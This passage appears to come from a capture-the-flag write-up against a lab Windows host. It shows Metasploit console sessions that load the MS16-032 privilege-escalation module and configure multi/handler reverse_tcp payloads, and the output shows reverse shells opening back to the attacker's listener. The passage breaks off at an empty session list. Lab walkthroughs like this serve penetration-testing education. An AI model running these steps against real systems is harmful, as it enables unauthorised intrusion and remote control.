 ```
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp   
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
...
```
However, they require existing Metasploit sessions before privilege esclating them.

Let's try to get a Meterpreter session!
```
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options
...
msf5 exploit(multi/handler) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] Sending stage (201283 bytes) to 10.10.10.8
[*] Sending stage (201283 bytes) to 10.10.10.8
[*]  - Meterpreter session 1 closed.  Reason: Died
[*] Meterpreter session 1 opened (10.10.x.x:4444 -> 127.0.0.1) at 2021-01-17 11:55:51 +0800
[*] Sending stage (201283 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.x.x:4444 -> 127.0.0.1) at 2021-01-17 11:55:52 +0800
[*] Sending stage (201283 bytes) to 10.10.10.8
[*]  - Meterpreter session 2 closed.  Reason: Died
[*]  - Meterpreter session 3 closed.  Reason: Died
[*] Meterpreter session 3 opened (10.10.x.x:4444 -> 127.0.0.1) at 2021-01-17 11:55:52 +0800
```
Nope, we can't get a Meterpreter shell directly.

Let's try to get a regular x64 Windows reverse shell then!
```
msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf5 exploit(multi/handler) > show options
...
msf5 exploit(multi/handler) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] Sending stage (336 bytes) to 10.10.10.8
[*] Command shell session 1 opened (10.10.x.x:4444 -> 10.10.10.8:49166) at 2021-01-17 11:41:46 +0800
[*] Sending stage (336 bytes) to 10.10.10.8
[*] Command shell session 2 opened (10.10.x.x:4444 -> 10.10.10.8:49167) at 2021-01-17 11:41:46 +0800
[*] Sending stage (336 bytes) to 10.10.10.8
```
Looking at Sessions, we see we have established regular x64 shells.
```
msf5 exploit(multi/handler) > sessions

Active sessions
===============
```
